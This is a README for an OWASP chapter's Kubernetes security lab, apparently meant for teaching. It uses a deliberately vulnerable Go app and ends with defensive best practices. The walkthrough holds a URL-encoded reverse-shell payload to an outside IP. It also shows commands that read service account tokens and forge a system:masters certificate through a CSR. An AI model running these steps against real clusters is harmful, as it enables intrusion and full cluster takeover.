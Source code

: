 #  Welcome!

First and foremost, Welcome! :tada::confetti_ball:

Thank you for visiting the go-rce-kubernetes project repository. :balloon::balloon::balloon:

This document (the README file) is a hub to give you some information about the project. Jump straight to one of the sections below, or just scroll down to find out more.

* [What are we doing? (And why?)](#what-are-we-doing)
* [Who are we?](#who-are-we)
* [How to use this repostory](#getting-started)
* [Get in touch](#contact-us)
* [Find out more](#general-security-guidance)


## What are we doing?

The intent of this repository is to take a closer look at some of the security pitfals that maybe encoutered when deploying containerize applications in kubernetes. This project uses poorly writen go application to demonstrate how a single vulnerable application can compromise a poorly configured kubernetes cluster. 


## Who are we?

The new OWASP waterloo chapter leads and security enthustists
* Scott Handfield
* Kristopher Jamison
* Dale Babiy
* Deepak Sharma


# Getting started

## Pre-requisites 
This project assumes you have access to a running kubernetes cluster 

## Build and run 
The following steps outline building and running the simulations: 
1. Clone the repo 
```
git clone github.com/handfields/go-rce-kubernetes
```
2. Build the vulnerable go-rce contianer (Optional - containers are also available on dockerhub)
```
cd go-rce-kubernetes && docker build . 
```
3. Deploy 
4. Exploit 
 - The go-rce applicaion takes untrusted data from users as command line arguments and redirect
 - Open a browser to the following link (Replace hostname and port with the external IP/port of the kubernetes service) <br>
 [http://hostname:port/google.com?bash%20-i%20%26%3E%20%2Fdev%2Ftcp%2F10.11.11.39%2F8444%200%3E%261](http://hostname:port/google.com?bash%20-i%20%26%3E%20%2Fdev%2Ftcp%2F10.11.11.39%2F8444%200%3E%261)

5. Recon
 - what information can you find that might be useful for lateral movement and/or persistence in the cluster? 
 - service account tokens? 
    ```
    find / -name '*token'
    ```
 - sensitive environment variables? 
   ```
   env
   ``` 
 - explore ..
    ```
    ./kubectl --token=$(cat /run/secrets/kubernetes.io/serviceaccount/token) --certificate-authority=/run/secrets/kubernetes.io/serviceaccount/ca.crt --server='https://kubernetes.default.svc.cluster.local' get pods
    ```

6. Elevate permissions 

Generate and sign client certificate with elevated permissions
```
curl -Lo cfssl https://github.com/cloudflare/cfssl/releases/download/v1.5.0/cfssl_1.5.0_linux_amd64 && chmod 700 cfssl 
curl -Lo cfssljson https://github.com/cloudflare/cfssl/releases/download/v1.5.0/cfssljson_1.5.0_linux_amd64 && chmod 700 cfssljson

cat <<EOF | ./cfssl genkey - | ./cfssljson -bare server
{
  "CN": "admin",
  "names": [
      {
        "O": "system:masters"
      }
  ],
  "key": {
    "algo": "rsa",
    "size": 2048
  }
}
EOF

cat <<EOF | ./kubectl --token=$(cat /run/secrets/kubernetes.io/serviceaccount/token) --certificate-authority=/run/secrets/kubernetes.io/serviceaccount/ca.crt apply -f -
apiVersion: certificates.k8s.io/v1beta1
kind: CertificateSigningRequest
metadata:
  name: nothing-to-see-here
spec:
  signerName: kubernetes.io/legacy-unknown
  request: $(cat server.csr | base64 | tr -d '\n')
  usages:
  - digital signature
  - key encipherment
  - client auth
EOF

./kubectl certificate approve nothing-to-see-here

./kubectl get csr nothing-to-see-here -o jsonpath='{.status.certificate}' | base64 -d | tee server.crt 
```

7. Perform lateral movement

8. Add security policies 

9. Update deployment 


# General secuirty guidance 
This section introduces some general best practice guildlines for operating secure containerize workloads 

### Build secure images 
    - Use slim and minimal base images, where possible 
    - Use multi-stage builds to avoid adding unnessisary binaries, libraries, files, etc. 
    - Scan images and applications for secuirty vulernabilities 

### Ensure binary authorization
    - Restrict access to container registries and use only verified images (ie. Cryptographically signed images, OPA policies, etc. )

### Remove unnessisary capabilities 
    - Ensure securityContext is applied to ensure pods are running as non-root, with appropriate capabilities and read-only filesystems where possible.  

### Apply least privledge access 
    - Apply RBAC policy and limit access to service accounts 

### Take caution with senstive mount points
    - Avoid mounting service account tokens and 'hostpath', especially for pods that are exposed to lower environments (ie. internet facing, accessible form uat, dev, etc..)

### Segment, Segment and Segment 
    - Namespaces
        - Use namespaces to logically group workloads but do not assume namespaces provide sufficient workload isolation. 
    - Network policies
    - Service mesh 
    - Secure control plane 

### Monitor
    - Continuously scan host, images and running containers for vulnerabilities and configuration issues 
    - Ensure logs are being shipped and analyzed for security issues

### Additional guidance, helpful tools and resources 
https://cheatsheetseries.owasp.org/cheatsheets/Kubernetes_Security_Cheat_Sheet.html<br>
https://github.com/OWASP/Docker-Security<br>
https://www.nist.gov/publications/application-container-security-guide <br>
https://github.com/open-policy-agent/<br>
https://github.com/ManicodeSecurity/Defending-DevOps <br>
https://github.com/ksoclabs/kube-goat <br>
https://github.com/aquasecurity<br>
https://github.com/falcosecurity/falco<br>
https://github.com/cyberark/KubiScan<br>
https://kubernetes.io/blog/2018/07/18/11-ways-not-to-get-hacked/<br>
https://www.microsoft.com/security/blog/2020/04/02/attack-matrix-kubernetes/<br>
https://github.com/trailofbits/audit-kubernetes/tree/master/reports<br>
